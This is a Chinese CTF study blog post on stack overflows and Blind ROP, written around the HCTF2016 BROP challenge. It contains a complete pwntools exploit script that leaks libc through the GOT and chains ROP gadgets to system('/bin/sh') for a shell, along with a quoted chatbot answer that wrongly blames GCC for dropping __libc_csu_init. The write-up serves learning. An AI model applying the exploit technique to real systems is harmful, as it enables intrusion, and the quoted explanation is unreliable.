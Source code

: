﻿---
layout:     post
title:      栈溢出基础浅记（3）
subtitle:   
date:       2023-10-07
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

### 控制rdx的方法

从上一篇文章可以发现，鲜有类似`pop rdx;ret`这样的指令。

wiki中介绍了一个方法，就是会找到strcmp函数，在执行该函数时，rdx会被设置为要被比较的字符串的长度，所以可以通过找到strcmp函数，从而控制rdx。

### 关于[HCTF2016 的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop)的发现

本来想着先用常规的方法做这道题，看看会不会出问题结果发现最后在执行`payload = b'a' * 64 + b'deadbeef' + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)`时总是失败，总结原因应该时libc版本的问题。同时试了下wiki给出的rop，也不能成功运行。

~~通过泄露got地址，发现puts地址为0x570a7ff04a680e50，__libc_start_main地址为0x570a7ffa31a29dc0，两个综合发现结果只有`libc6_2.35-0ubuntu3.4_amd64`，但是使用该libc的地址，得到的system函数的位置也并不正确。证明确实是libc版本有问题。~~

！！！！其实上面的说法不正确！！！并不是libc版本的问题！

可以用的exp如下：

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher
# 0x00000000004007c3 : pop rdi ; ret
# 0x00000000004007c1 : pop rsi ; pop r15 ; ret
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
pop_rdi = brop_gadget + 9
pop_rsi_pop_r15 = brop_gadget + 7
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

# sh = remote("127.0.0.1", 9999)
sh = process('./brop')

payload = b'a' * length + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)

sh.recv()
sh.sendline(payload)

# 搞不懂为啥接受8个字节的话，最后两个字节不是0，也就是说貌似got表中的__libc_start_main的地址只有6个字节
# 现在这样接受6个字节是对的
libc_puts_addr = u64(sh.recv(6).ljust(8, b'\x00'))
log.success('puts ' + hex(libc_puts_addr))

libc = LibcSearcher('puts', libc_puts_addr)
libc_base = libc_puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

# libc = ELF('./libc.so.6')
# libc_base = libc_puts_addr - libc.symbols['puts']
# system_addr = libc_base + libc.symbols['system']
# binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success('libc_base ' + hex(libc_base))
log.success('system_addr ' + hex(system_addr))
log.success('binsh_addr ' + hex(binsh_addr))

# 我如果没修改rsi，同样也不能得到shell（估计是因为原来rsi里面的值是那个特别长的字符串
payload = b'a' * length + p64(pop_rdi) + p64(binsh_addr) + p64(pop_rsi_pop_r15)+ p64(0) +p64(0) + p64(system_addr) + p64(stop_gadget)

sh.sendline(payload)
sh.interactive()
```

之后，我想着直接编重新用我的gcc编译一下（gcc version 11.4.0），使用命令为`gcc -fno-stack-protector -no-pie main.c -o brop`，这时使用ROPgadget查看，结果如下：

```
❯ ROPgadget --binary brop --only 'pop|ret'
Gadgets information
============================================================
0x000000000040117d : pop rbp ; ret
0x000000000040101a : ret

Unique gadgets found: 2
```

基本上没有pop，ret了，然后使用ida pro逆向，发现确实已经没有了`__libc_csu_init`函数，询问GPT的结果如下：

> 根据GCC的更新历史，自GCC版本4.9以后，新版本的GCC已经引入了新的启动过程（startup process）和初始化过程（initialization process）。在新的初始化过程中，不再使用libc_csu_fini和libc_csu_init函数。
>
> 在旧版本的GCC中，libc_csu_fini和libc_csu_init函数是用于在程序启动和结束时执行一些初始化和清理工作的。libc_csu_fini用于清理由libc_csu_init函数初始化的全局变量和静态变量，而libc_csu_init函数则负责初始化这些变量。
>
> 然而，由于新版本的GCC引入了更高级的启动和初始化过程，这些过程已经被重新设计和重构。因此，不再需要使用libc_csu_fini和libc_csu_init函数来进行初始化和清理工作。
>
> 总结起来，最新版的GCC编译的文件不再包含libc_csu_fini和libc_csu_init函数。

### 关于Blind ROP

这里写一下思路

- 找到栈溢出长度（暴力枚举）
- 泄露canaries 参考[canary的各种姿势----pwn题解版 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4657)
- 找到stop_gadget(即可以使程序继续成功运行的gadget)
- 找到brop_gadget
- 找到puts地址
- 泄露libc地址
- pwn

整个过程挺繁琐的，感觉先可以做做别的，有时间再做这种题目
